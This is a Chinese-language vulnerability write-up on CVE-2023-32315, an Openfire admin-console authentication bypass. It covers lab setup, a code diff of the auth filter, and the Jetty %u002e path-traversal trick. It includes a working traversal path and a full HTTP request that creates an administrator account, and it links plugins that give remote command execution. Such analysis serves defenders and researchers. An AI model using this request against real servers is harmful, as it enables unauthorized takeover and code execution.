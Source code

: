 title: CVE-2023-32315 Openfire 身份认证绕过漏洞
author: bmth
tags:
  - CVE-2023-32315
categories:
  - java
date: 2023-06-19 16:59:00
top_img: 'https://img-blog.csdnimg.cn/be3038080ea246cc96020dc9b4ff2558.png'
cover: 'https://img-blog.csdnimg.cn/be3038080ea246cc96020dc9b4ff2558.png'
---
![](https://img-blog.csdnimg.cn/be3038080ea246cc96020dc9b4ff2558.png)

Openfire是免费的、开源的、基于可拓展通讯和表示协议(XMPP)、采用Java编程语言开发的实时协作服务器

Openfire的管理控制台是一个基于 Web 的应用程序，被发现可以使用路径遍历的方式绕过权限校验。成功利用后，未经身份验证的用户可以访问 Openfire 管理控制台中的后台页面。同时由于Openfire管理控制台的后台提供了安装插件的功能，所以攻击者可以通过安装恶意插件达成远程代码执行的效果

官方通告：[https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm](https://github.com/igniterealtime/Openfire/security/advisories/GHSA-gw42-f939-fhvm)

影响版本：
- 3.10.0 <= Openfire < 4.6.8
- 4.7.0 <= Openfire < 4.7.5


## 环境搭建
直接下载 openfire 4.7.4：[https://github.com/igniterealtime/Openfire/releases/download/v4.7.4/openfire_4_7_4.tar.gz](https://github.com/igniterealtime/Openfire/releases/download/v4.7.4/openfire_4_7_4.tar.gz)

然后解压，通过`bin/openfire start`启动openfire
在`logs/stdoutt.log`中可以看到管理平台端口是9090
![](https://img-blog.csdnimg.cn/12eea9e248f24d5ea81abc0b7829314a.png)

接下来进行安装，默认设置即可，可以选择自带的数据库
![](https://img-blog.csdnimg.cn/0ada2a93646e459f9979b276542599b9.png)

然后设置管理员账号密码
![](https://img-blog.csdnimg.cn/1af7fab09e58481fb82c82d7c8069da5.png)

看到安装成功后直接显示了版本

## 漏洞分析
对比最新版本和漏洞版本的代码区别：[https://github.com/igniterealtime/Openfire/compare/v4.7.4...4.7](https://github.com/igniterealtime/Openfire/compare/v4.7.4...4.7)

看到`xmppserver/src/main/webapp/WEB-INF/web.xml`
![](https://img-blog.csdnimg.cn/fa68de34f87549f596630cd4c5c1e3a5.png)

删除了`setup/index.jsp`、`setup/setup-*`两个路径，其实这个 AuthCheckFilter 就是它的一个鉴权机制，如果满足这些路径就可以跳过鉴权

`xmppserver/src/main/java/org/jivesoftware/admin/AuthCheckFilter.java`
![](https://img-blog.csdnimg.cn/a8079f571ab543dd8c6a1c47b1c77772.png)

在漏洞版本中，如果满足`exclude.endsWith("*")`，同时url不包含`..`或者`%2e`，那么就返回true
而在修复版本中进行了URLDecoder，然后再判断是否存在`..`
![](https://img-blog.csdnimg.cn/0f01d086aa98485ba465a32ff2d00f0f.png)

看到这里如果返回为true的话，doExclude就会为true，绕过鉴权

在CVE-2021-34429中，Jetty 就有过使用`%u002e`进行绕过，在Jetty9.4.37版本中，为了符合RFC3986中的规范，选择性地支持可能有歧义解释的URI，默认模式允许URL编码，这也导致我们可以使用UTF-16字符来绕过路径穿越的防护
![](https://img-blog.csdnimg.cn/5935097a08b2460a9914e5c033e9cb11.png)

Openfire默认下载的版本为jetty/9.4.43
我们也就可以使用：
```
/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```
![](https://img-blog.csdnimg.cn/d1f82863eb3f4603901de64361232cc8.png)

成功绕过鉴权
## 漏洞利用
我们利用该路径穿越漏洞创建一个新的管理员：
```
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=csrftoken&username=hackme&name=&email=&password=hackme&passwordConfirm=hackme&isadmin=on&create=Create+User HTTP/1.1
Host: localhost:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: csrf=csrftoken
```
虽然这个请求的响应包中包含异常，但实际上新用户已经被创建，账号密码均为hackme
![](https://img-blog.csdnimg.cn/8d33c45ff329460d8af1fd0a95adee2e.png)

成功利用hackme登录后，我们可以安装插件实现rce，插件地址：[https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass/releases/download/v0.1/org.jivesoftware.openfire.plugin.CVE-openfire-plugin-assembly.jar](https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass/releases/download/v0.1/org.jivesoftware.openfire.plugin.CVE-openfire-plugin-assembly.jar)
![](https://img-blog.csdnimg.cn/ede9114e8f114b84b3de6fb668b19313.png)

使用默认密码123登录，成功执行命令
![](https://img-blog.csdnimg.cn/a398d506b2c54e62890e6b7b9d0d850a.png)

也可以使用p神给的插件：[https://github.com/vulhub/openfire-fastpath-plugin](https://github.com/vulhub/openfire-fastpath-plugin)，里面存在后门
![](https://img-blog.csdnimg.cn/ab8a3861f76c4dbeb207a0b3db6c96f4.png)


参考：
[https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/openfire/CVE-2023-32315/README.zh-cn.md)
[Eclipse Jetty WEB-INF敏感信息泄露漏洞分析（CVE-2021-28164/CVE-2021-34429）](https://xz.aliyun.com/t/10039)
